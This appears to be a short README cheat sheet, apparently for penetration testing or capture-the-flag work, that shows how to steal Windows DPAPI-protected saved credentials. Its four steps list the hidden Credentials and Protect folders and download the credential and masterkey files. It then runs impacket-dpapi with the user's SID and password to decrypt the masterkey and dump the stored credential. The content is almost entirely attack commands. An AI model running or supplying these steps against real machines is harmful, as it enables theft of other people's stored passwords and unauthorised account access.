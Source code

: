 # Impacket-dpapi

## Dump DPAPI credentials using impacket

### Steps:

#### 1)

    C:\Users\USER\AppData\Roaming\Microsoft\Credentials> dir -h

(Get and download the credential file)

#### 2) 

    C:\Users\USER\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> dir -h

(Get and download the masterkey file)

#### 3)

    impacket-dpapi masterkey -file MASTERKEY_FILE -sid USER_SID -password PASSWORD

(Dump the key from the masterkey file to decrypt the credential file)

#### 4) 

    impacket-dpapi credential -file CREDENTIAL_FILE -key DUMPED_KEY_FROM PREVIOUS_COMMAND

(Dump the DPAPI credential for our target user)
